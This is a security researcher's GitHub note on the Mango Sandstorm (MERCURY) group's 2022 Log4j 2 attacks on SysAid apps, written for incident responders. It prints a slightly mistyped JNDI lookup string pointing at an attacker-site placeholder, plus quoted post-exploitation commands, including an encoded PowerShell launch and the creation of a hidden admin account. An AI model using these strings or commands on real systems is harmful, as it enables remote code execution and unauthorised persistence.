 # Day 4 - Mango Sandstorm Attack techniques & insights
While I am tracing back the history of Mango Sandstorm, formerly known as MERCURY, I have a few questions, and I hope that these questions and my curiosity will help someone with their security incident response.

|#|Title|About|
|:---|:---|:---|
| Part 1 | [Day4-Mango-Sandstorm-Part1-Overview.md](https://github.com/LearningKijo/SecurityResearcher-Note/blob/main/SecurityResearcher-Note-Folder/Day4-Mango-Sandstorm-Part1-Overview.md)   | Mango Sandstorm overview |
| Part 2 | Day4-Mango-Sandstorm-Part2-AttackTechniques-Insights.md  |August 25, 2022, Mango Sandstorm |
| Part 3 | Day4-Mango-Sandstorm-Part3-AttackTechniques-Insights.md (wip) |April 7, 2023, Mango Sandstorm & Storm-1084 |

## August 25, 2022, Mango Sandstorm
#### Short Summary
Mango Sandstorm, previously known for using Log4j 2 exploits to attack VMware apps, has recently been targeting SysAid apps using the same technique. Once they gain initial access, the group establishes persistence, moves laterally within the network using custom and well-known hacking tools, and dumps credentials.

![image](https://github.com/LearningKijo/SecurityResearcher-Note/assets/120234772/f67bb7ac-2cc3-4a6e-ab31-06b8db9ce991)
> **Note** : [MERCURY leveraging Log4j 2 vulnerabilities in unpatched systems to target Israeli organizations](https://www.microsoft.com/en-us/security/blog/2022/08/25/mercury-leveraging-log4j-2-vulnerabilities-in-unpatched-systems-to-target-israeli-organizations/)


## Log4j 2 vulnerability
As the Mango Sandstorm attack was initiated through the Log4j vulnerability, let's delve deeper into the attack and the vulnerability.

![image](https://github.com/LearningKijo/SecurityResearcher-Note/assets/120234772/49b682a4-10a9-4b9b-be53-a0c80e00d01b)
> [Remediating the Log4j vulnerability](https://www.youtube.com/watch?v=ulOTK2pZLNU) | Microsoft Defender for Endpoint

#### What is Log4j?
Log4j is a widely used Java logging library that allows developers to log events and messages in their applications. It provides flexibility in categorizing and controlling logging output, enabling effective debugging and monitoring of applications.

#### Why was Log4j 2 exploited?
Log4j 2, an updated version of Log4j, is a widely used and powerful logging framework in Java. However, it had a critical vulnerability called Log4Shell (CVE-2021-44228, CVE-2021-45046, CVE-2021-44832), ***which allowed attackers to remotely execute code by exploiting its deserialization functionality.*** 

#### How does the attacker precisely exploit the vulnerable Log4j 2? 
Attackers exploit vulnerable Log4j 2 systems by sending data containing a specific string. Log4j 2, while attempting to process this string, accesses ***a specified URL through the JNDI Lookup feature***. This allows attackers to download and execute malicious Java code within the system.
> **Note** : Java Naming and Directory Interface (JNDI)<br>
> It is a Java API that helps applications find and access data and resources using names.

#### A specified URL?
Here is the pattern of attack - **${indi:ldap//[attacker site]/a}**

#### What commands were executed through the Log4j 2 exploit?
```cmd
cmd.exe /C whoami
cmd.exe /C powershell -exec bypass -w 1 -enc UwB….
cmd.exe /C hostname
cmd.exe /C ipconfig /all
cmd.exe /C net user
cmd.exe /C net localgroup administrators
cmd.exe /C net user admin * /add
cmd.exe /C net localgroup Administrators admin /add
cmd.exe /C quser
```
### Reference
[Guidance for preventing, detecting, and hunting for exploitation of the Log4j 2 vulnerability](https://www.microsoft.com/en-us/security/blog/2021/12/11/guidance-for-preventing-detecting-and-hunting-for-cve-2021-44228-log4j-2-exploitation/).

#### Disclaimer
The views and opinions expressed herein are those of the author and do not necessarily reflect the views of company.
